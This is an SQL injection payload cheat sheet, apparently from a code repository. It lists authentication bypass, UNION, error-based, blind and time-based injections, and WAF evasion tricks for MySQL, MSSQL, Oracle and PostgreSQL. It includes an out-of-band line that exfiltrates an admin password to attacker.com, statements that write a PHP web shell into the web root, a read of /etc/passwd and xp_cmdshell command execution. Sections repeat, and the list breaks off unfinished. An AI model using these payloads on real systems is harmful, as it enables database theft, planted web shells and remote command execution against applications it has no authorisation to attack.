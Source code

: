 

# SQL Injection (SQLi) Payloads List

Below is a collection of common SQL injection payloads categorized by attack type and database technology.

## Basic Authentication Bypass

```
' OR '1'='1
' OR 1=1 --
' OR 1=1 #
admin' --
admin' #
admin'/*
admin' OR '1'='1
```

## Union-Based Attacks

```
UNION SELECT null,username,password FROM users--
UNION SELECT 1,2,3,4--
UNION ALL SELECT database(),user(),version()--
```

## Error-Based Attacks

```
AND (SELECT 0 FROM (SELECT count(*),concat(version(),floor(rand(0)*2))x FROM information_schema.tables GROUP BY x)a)
AND GTID_SUBSET(CONCAT(0x7e,(SELECT USER()),0x7e),0)
EXTRACTVALUE(rand(),concat(0x3a,(select database())))
```

## Boolean-Based Blind SQLi

```
AND SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1)='a'
AND ASCII(SUBSTRING((SELECT database()),1,1))>100
```

## Time-Based Blind SQLi

```
IF(SUBSTRING(database(),1,1)='a',SLEEP(5),0)
; WAITFOR DELAY '0:0:5' --
OR (SELECT * FROM (SELECT(SLEEP(5)))a)
```

## Database-Specific Payloads

### MySQL
```
@@version
LOAD_FILE('/etc/passwd')
INTO OUTFILE '/var/www/html/shell.php'
CONNECTION_ID()
```

### MSSQL
```
@@SERVERNAME
xp_cmdshell('whoami')
WAITFOR DELAY '0:0:5'
```

### Oracle
```
(SELECT banner FROM v$version WHERE rownum=1)
UTL_HTTP.REQUEST('http://attacker.com')
DBMS_LOCK.SLEEP(5)
```

### PostgreSQL
```
current_database()
pg_sleep(5)
COPY (SELECT '<?php system($_GET[cmd]); ?>') TO '/var/www/html/shell.php'
```


---

### **2. UNION-Based Attacks**
Extract data from other tables using `UNION SELECT`:
```sql
' UNION SELECT 1,2,3 -- 
' UNION SELECT username, password, NULL FROM users -- 
```

---

### **3. Error-Based SQLi**
Trigger database errors to extract information:
```sql
' AND (SELECT 0 FROM (SELECT COUNT(*), CONCAT((SELECT @@version), FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y) -- 
```

---

### **4. Boolean-Based Blind SQLi**
True/False conditions to infer data:
```sql
' AND SUBSTRING((SELECT password FROM users WHERE username='admin'), 1, 1)='a' -- 
```

---

### **5. Time-Based Blind SQLi**
Delay-based inference:
```sql
'; IF (SUBSTRING((SELECT password FROM users WHERE username='admin'), 1, 1)='a') WAITFOR DELAY '0:0:5' -- 
```

---

### **6. Out-of-Band Data Exfiltration**
Exfiltrate data via DNS/HTTP requests:
```sql
'; DECLARE @data VARCHAR(1024); SET @data=(SELECT password FROM users WHERE username='admin'); EXEC('master..xp_dirtree "\\'+@data+'.attacker.com\share"') -- 
```

---

### **7. File System Access**
Read/write files (if DB permissions allow):
```sql
' UNION SELECT LOAD_FILE('/etc/passwd'), NULL, NULL -- 
'; SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/shell.php' -- 
```


---

### **8. Database-Specific Payloads (Continued)**

#### **MySQL / MariaDB (Continued)**
```sql
-- List tables in current database  
SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE()  

-- List columns in a table  
SELECT column_name FROM information_schema.columns WHERE table_name = 'users'  

-- String concatenation  
SELECT CONCAT(username, ':', password) FROM users  

-- Conditional time delay  
SELECT IF(1=1, SLEEP(5), 0)  
```

#### **PostgreSQL**
```sql
-- Version check  
SELECT version()  

-- List databases  
SELECT datname FROM pg_database  

-- List tables  
SELECT table_name FROM information_schema.tables  

-- String concatenation  
SELECT username || ':' || password FROM users  

-- Conditional time delay  
SELECT pg_sleep(5) FROM users WHERE username='admin'  
```

#### **Microsoft SQL Server**
```sql
-- Version check  
SELECT @@version  

-- List databases  
SELECT name FROM master..sysdatabases  

-- List tables in current DB  
SELECT table_name FROM information_schema.tables  

-- Conditional time delay (SQL Server)  
IF (1=1) WAITFOR DELAY '0:0:5'  

-- Command execution (if xp_cmdshell enabled)  
EXEC xp_cmdshell 'whoami'  
```

#### **Oracle**
```sql
-- Version check  
SELECT * FROM v$version  

-- List tables owned by current user  
SELECT table_name FROM user_tables  

-- String concatenation  
SELECT username || ':' || password FROM users  

-- Conditional time delay (DBMS_LOCK.SLEEP requires privileges)  
BEGIN DBMS_LOCK.SLEEP(5); END; -- 
```

---

### **9. Bypassing WAF/Filtering Techniques**

```sql
/* Case switching */
' UnIoN SeLeCt 1,2,3 -- 

/* Whitespace alternatives */
'UNION/**/SELECT/**/1,2,3--

/* Comment obfuscation */
' UNION SELECT/*random*/1,password/*random*/FROM users--

/* Hex encoding */
' UNION SELECT 0x61646d696e,2,3 --  /* "admin" in hex */

/* CHAR() function */
